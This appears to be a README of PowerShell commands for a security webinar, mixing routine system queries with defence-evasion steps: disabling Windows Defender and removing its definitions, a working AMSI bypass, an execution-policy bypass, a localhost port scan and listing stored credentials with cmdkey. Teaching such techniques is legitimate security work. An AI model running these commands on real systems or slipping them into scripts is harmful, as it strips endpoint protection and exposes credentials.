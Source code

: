 # PowerShell Commands for Webinar
## 1. Disable Windows Defender Realtime Monitoring
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
This command disables Windows Defender's real-time monitoring.
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
---
## 2. Get Detailed OS Information
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```
This command retrieves all properties of the operating system.
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
---
## 3. Network Interface Information
```powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.
![Screenshot of Network Interface Info](./images/screenshot3.png)
---
## 4. List Processes by CPU Usage
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
This command retrieves running processes and sorts them by CPU usage in descending order.
![Screenshot of Get-Process command](./images/screenshot4.png)
---
## 5. Port Scanning (1-1024)
```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async = $sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false); if($sock.Connected) { $_ }; $sock.Close() }
```
This command performs a basic port scan on localhost for ports 1 to 1024.
![Screenshot of Port Scanning](./images/screenshot5.png)
---
## 6. Disable AMSI (Antimalware Scan Interface)
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
This command disables AMSI by manipulating internal PowerShell structures.
![First Screenshot for AMSI Disable](./images/screenshot6_1.png)
![Second Screenshot for AMSI Disable](./images/screenshot6_2.png)
---
## 7. Bypass Execution Policy Temporarily
```powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
This command temporarily bypasses the execution policy for running scripts and then reverts it.
---
## 8. List Stored Credentials
```powershell
cmdkey/list
```
This command lists all stored credentials.
---
